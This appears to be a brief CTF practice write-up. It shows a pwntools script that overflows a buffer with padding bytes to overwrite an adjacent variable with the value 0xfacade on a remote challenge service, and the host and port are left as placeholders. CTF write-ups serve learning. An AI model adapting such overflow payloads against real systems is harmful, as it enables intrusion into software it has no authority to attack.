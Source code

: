 ![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/c78583db-9a51-44cd-a497-e8788d4cafe2)

![image](https://github.com/ZHallen122/CTF-Practice-WriteUp/assets/106571949/991459d1-d2ab-49ae-9226-6d91297b45fb)

After Analysis 
We can write this script
import pwn

io = pwn.remote("pwn", port number )

io.sendline()

payload = b"A" * 50  # Fill `buf`
payload += b"A" * 14  # reach next integer variable on a 64-bit system
payload += b"A" * 24 # fill sample
payload += pwn.p32(0xfacade)  

io.sendline(payload)
io.interactive()

